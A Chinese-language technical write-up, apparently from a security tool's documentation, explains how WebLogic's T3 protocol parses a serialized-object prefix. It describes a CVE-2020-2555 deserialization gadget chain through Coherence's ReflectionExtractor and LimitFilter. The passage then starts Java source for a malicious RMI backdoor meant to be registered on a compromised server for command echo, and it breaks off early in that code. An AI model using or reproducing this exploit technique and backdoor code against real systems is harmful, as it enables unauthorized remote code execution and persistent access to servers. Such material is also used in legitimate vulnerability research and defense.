 2后面的字节是`fe010000`，然后才是aced（序列化对象的开头），暂且叫`fe010000`为前缀吧

如图是解析abbrevs的方法in.readLength()读取的就是fe0100，当大于at.getCapacity()（header请求中AS的值）时才会反序列化后面的数据，否则就会at.getValue()（这个方法一般返回的是null）

![](/img/products/yakit/weblogic-abbrevs.png)

readLength方法如下图，当第一个字节的值是254（16进制的fe）时，会继续读两个字节：0100，转10进制就是256，刚好大于AS的值255，所以可以反序列化

![](/img/products/yakit/weblogic-readLength.png)

readObject方法如图，会读取一个对象类型的标志

![](/img/products/yakit/weblogic-readObject.png)

所以前缀由一个length和对象类型标志组成，如果想反序列化，这个标志需要为0

其实可以将AS值设置小一点，如253以下，这个前缀`fe010000`就可以改为`fd00`了

t3协议解析流程是先读header，得到abbrevsOffest后解析abbrevs（反序列化），读取Publickey或extendedContext、peerinfo

## 漏洞利用
### 反序列化
知道了t3协议组成，那反序列化利用就简单了，先发送header，再发一段恶意t3数据包：header+前缀+序列化对象

然后就是利用链的构造，weblogic有个Coherence组件，官方介绍是这样的

![](/img/products/yakit/weblogic-Coherence.png)

这个组件的ReflectionExtractor类，类似CC链的中的Transformer，它可以通过反射调用某个对象的方法，而且也可以通过ChainedExtractor，串联多个ReflectionExtractor

同在Coherence组件的LimitFilter类的toString方法，调用了extractor.extract，如图

![](/img/products/yakit/weblogic-LimitFilter.png)

### 回显利用
因为ReflectionExtractor可以调用任意对象的任意方法，所以可以构造TemplatesImpl实现代码执行，https://github.com/Y4er/CVE-2020-2555 项目安装rmi的payload利用链是AnnotationInvocationHandler ->LazyMap->Transformer然后defineClass，再invoke

但如果不出网就需要回显利用，通过反序列化，可以代码执行，所以可以通过java代码，实现一个带回显的后门

后门需要用一个端口传递消息，直接监听个新端口大概率也是在内网，所以最好还是用中间件自身的功能，通过已经开启了端口的服务实现后门，例如注册一个恶意rmi对象，利用t3协议远程调用

注册恶意rmi后门代码如下（这个后门可以上传，安装和卸载）

```JAVA
package com.supeream.payload;

import java.io.BufferedReader;
import java.io.FileOutputStream;
import java.io.InputStreamReader;
import java.rmi.RemoteException;
import java.util.ArrayList;
import java.util.List;
import javax.naming.Context;
import javax.naming.InitialContext;
import weblogic.cluster.singleton.ClusterMasterRemote;

public class RemoteImpl implements ClusterMasterRemote {
    public RemoteImpl() {
    }

    public static void main(String[] args) {
        try {
            RemoteImpl remote = new RemoteImpl();
            if (args.length == 2 && args[0].equalsIgnoreCase("blind")) {
```